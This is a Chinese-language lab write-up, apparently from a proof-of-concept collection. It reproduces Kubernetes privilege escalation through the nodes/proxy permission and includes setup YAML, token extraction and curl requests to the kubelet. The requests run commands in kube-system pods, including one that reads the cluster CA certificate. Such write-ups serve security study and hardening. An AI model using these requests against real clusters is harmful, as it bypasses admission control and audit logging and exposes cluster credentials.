 # Kubernetes 利用 nodes proxy 子资源进行权限提升

## 漏洞描述

具有 `nodes/proxy` 权限的 K8s 用户可以绕过 API server 的认证，直接和 Kubelet 进行通信，从而绕过 K8s 的准入控制和日志审计，达到权限提升的效果。

参考链接：

- https://blog.aquasec.com/privilege-escalation-kubernetes-rbac
- https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-k8s-node-proxy

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f k8s_node_proxy.yaml
```

或直接通过 metarget 启动漏洞环境：

```
./metarget cnv install k8s_node_proxy
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `k8s_node_proxy` 的 pod：

```
kubectl get pods -n metarget
-----
NAME             READY   STATUS    RESTARTS   AGE
k8s-node-proxy   1/1     Running   0          78s
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422161359275.png)

## 漏洞复现

>  Kubernetes v1.24 及以上版本，默认不再自动创建长期存储的 Token Secret，即不再创建 `<serviceaccount>-token-xxxxx`。

为了复现当前场景，我们可以手动为 `ServiceAccount` 创建一个 secret（注意，在实际环境中，该方式存在风险）：

```
kubectl apply -f k8s_node_proxy_token.yaml
```

部署完成后，查看 secret：

```
kubectl get secrets -n metarget | grep node-proxy
k8s-node-proxy-token-secret   kubernetes.io/service-account-token   3      18m
```

此时，secret 没有自动绑定到 `ServiceAccount` ，需要手动绑定：

```
kubectl patch serviceaccount k8s-node-proxy -n metarget -p '{"secrets":[{"name":"k8s-node-proxy-token-secret"}]}'
```

查看是否绑定成功，如果绑定成功，`SECRETS` 的值将由 `0` 变为 `1`：

```
kubectl get serviceaccount k8s-node-proxy -n metarget
NAME             SECRETS   AGE
k8s-node-proxy   1         18m
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422173756548.png)

至此，secrets 问题已经解决完毕，我们开始复现漏洞。获取 Token 值并导入：

```
kubectl get secrets k8s-node-proxy-token-secret -n metarget -o jsonpath={.data.token} | base64 -d

# 导入Token
export TOKEN=<YOUR_TOKEN>
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422173949715.png)

可以看到，虽然我们无法直接通过 `/api/v1/namespaces/<namespace>/pods/` 列出 pods，但是可以通过具有 `nodes/proxy` 权限的 Token 间接访问 kubelet API，例如 `/api/v1/nodes/<node>/proxy/pods`。

```
# 发起请求，返回403
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/api/v1/namespaces/metarget/pods/
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422174530583.png)

```
# 发起请求，返回200
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/api/v1/nodes/minikube/proxy/pods
```

![](images/Kubernetes%20利用%20nodes%20proxy%20子资源进行权限提升/image-20250422174957211.png)

```shell
# payload in https://blog.aquasec.com/privilege-escalation-kubernetes-rbac
# FAILED with Kubernetes v1.32.0
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/pods
# curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/run/kube-system/<pod>/<container> -d "cmd=whoami"
curl -k -H "Authorization: Bearer $TOKEN" https://192.168.49.2:8443/run/kube-system/cilium-2vb9h/cilium-agent -d "cmd=whoami"
```

```shell
# payload in https://github.com/Metarget/metarget/tree/master/writeups_cnv/config-k8s-node-proxy
# WORKED with Kubernetes v1.16.5
curl -k https://kubelet-ip:kubelet-port/runningpods/ -H "Authorization: Bearer $token"	#查询集群内运行的pod
curl -k https://kubelet-ip:kubelet-port/run/kube-system/<apiserver-pod>/<container-name> -H "Authorization: Bearer $token" -d "cmd=cat+/etc/kubernetes/pki/ca.crt"	# 查询kube-apiserver pod中的证书
```

## 环境复原

```
kubectl delete secret k8s-node-proxy-token-secret -n metarget
kubectl delete -f k8s_metarget_namespace.yaml
kubectl delete -f k8s_node_proxy.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

[k8s_node_proxy.yaml](https://github.com/Metarget/metarget/blob/master/vulns_cn/configs/pods/k8s_node_proxy.yaml)

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: k8s-node-proxy
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: k8s-node-proxy
rules:
- apiGroups:
  - ""
  resources:
  - nodes/proxy
  verbs:
  - create
  - get
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: k8s-node-proxy
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: k8s-node-proxy
subjects:
- kind: ServiceAccount
  name: k8s-node-proxy
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: k8s-node-proxy
  namespace: metarget
spec:
  serviceAccountName: k8s-node-proxy
  containers:
  - name: ubuntu
    image: ubuntu:latest
    imagePullPolicy: IfNotPresent
    # Just spin & wait forever
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
```

k8s_node_proxy_token.yaml

```
apiVersion: v1
kind: Secret
metadata:
  name: k8s-node-proxy-token-secret
  namespace: metarget
  annotations:
    kubernetes.io/service-account.name: k8s-node-proxy
type: kubernetes.io/service-account-token
```
